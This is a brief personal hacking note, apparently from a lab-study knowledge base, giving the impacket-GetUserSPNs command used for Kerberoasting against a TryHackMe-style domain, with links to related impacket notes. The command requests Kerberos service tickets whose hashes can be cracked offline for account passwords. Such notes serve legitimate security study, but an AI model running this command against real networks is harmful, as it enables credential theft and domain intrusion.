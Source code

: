 # impacket kerberoast with impacket-GetUserSPNs
```bash
impacket-GetUserSPNs -dc-ip $IP -request LAB.ENTERPRISE.THM/username
```

# References
- [20221003150600](/zet/20221003150600/README.md) impacket
- ~/kb/hacking/commands/impacket-commands.md

Tags:
    #assorted #command
